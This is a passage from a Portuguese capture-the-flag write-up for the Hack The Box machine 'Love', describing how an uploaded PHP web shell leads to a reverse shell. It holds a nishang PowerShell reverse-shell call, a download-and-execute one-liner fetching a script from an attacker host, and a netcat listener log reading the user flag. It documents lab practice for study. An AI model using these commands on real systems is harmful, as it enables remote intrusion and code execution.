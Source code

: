     Para acessarmos o arquivo, podemos acessar a pasta de imagens no host http://love.htb/images e acessar o arquivo rce.php.

![](screenshots/worked_rce.png)

    Com o rce, podemos utilizar dele para conseguir uma reverse shell. Para isso usaremos a shell em powershell do nishang (utilizados também em writeups anteriores).

    Para que a shell funcione, precisamos adicionar o seguinte comando no final do arquivo:

```powershell
Invoke-PowerShellTcp -Reverse -IPAddress MACHINE_IP -Port 1234
```

    Com o comando adicionado, podermos usar a shell para baixar o arquivo e esperar a shell ser executada.

> Comando para baixar a shell

```powershell
powershell iex(new-object net.webclient).downloadstring('http://IP/Invoke-PowerShellTcp.ps1')
```

![](screenshots/reverse_shell.png)

> User Flag

```powershell
└─$ nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.14.85] from (UNKNOWN) [10.129.48.103] 56194
Windows PowerShell running as user Phoebe on LOVE
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\xampp\htdocs\omrs\images>cd ../../../../Users/Phoebe/Desktop
PS C:\Users\Phoebe\Desktop> type user.txt
a8f54c2d2a9efd46941d9f0f803e2c95
```

